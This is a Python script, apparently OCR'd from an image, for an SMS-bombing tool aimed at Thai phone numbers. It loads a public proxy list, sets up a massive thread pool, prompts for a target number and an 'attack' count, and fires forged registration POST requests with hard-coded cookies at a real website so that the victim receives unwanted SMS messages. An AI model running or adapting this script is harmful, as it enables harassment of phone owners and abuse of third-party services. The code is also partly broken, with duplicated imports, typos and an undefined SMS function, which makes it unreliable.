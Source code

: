 import requests as ru
import threading
import requests
import time
import random
import os
import datetime
import sys
from concurrent.futures import ThreadPoolExecutor
import random
from re import search
from requests import Session
from re import search
from bs4 import BeautifulSoup as bs
from user_agent import generate_user_agent
from requests import Session,post,get
os.system("clear")

threading = ThreadPoolExecutor(max_workers=int(100000))
headers = {"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"}
proxy = requests.get("https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/http.txt").text
f = open("proxy.txt", "w")
t = f.write(proxy)
g = open("proxy.txt", "r")
s = g.read().splitlines()

              


def home():
	print('''
    \x1b[31m69 api
    \x1b[00m[\x1b[31m+\x1b[00m] \x1b[35mFACEBOOK : \x1b[33mธนกฤต ตรีสูนย์
	''')
	phone = input(" \x1b[96mPHONE-NUMBER  : \x1b[92m")
	
	if int(phone) <= 99999999 or int(phone) >= 999999999:
		print()
		print('\x1b[92m[ NONAME ]\x1b[00m : \x1b[91mEnter a Thailand phone number [ ! ] \x1b[00m')
		time.sleep(2)
		os.system('claer')
	else:
		phone = phone
		jam = int(input("\x1b[96m AMOUNT-ATTACK : \x1b[92m"))
		jam = jam
		print()
		print()
		SMS(phone, jam)
		ru.post("https://www.tgfone.com/signin/add_register",headers={"content-type": "application/x-www-form-urlencoded","user-agent": generate_user_agent(),"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","cookie": "PHPSESSID=6d00c9f6d3b9b31a559fbc13edb560d4e571fb71;_gcl_au=1.1.491392800.1657955935;_gid=GA1.2.1244336456.1657955937;_gat_gtag_UA_163796127_1=1;_fbp=fb.1.1657955937500.30844796;G_ENABLED_IDPS=google;_ga_1QLSWVZFZ2=GS1.1.1657955937.1.1.1657955943.0;_ga=GA1.2.160165897.1657955937"},data=f"mobile_form={phone}&password_form=as257400As&confirmpassword_form=as257400As&name_form=skkdmx&lastname_form=dkmsxm&stype=2")
		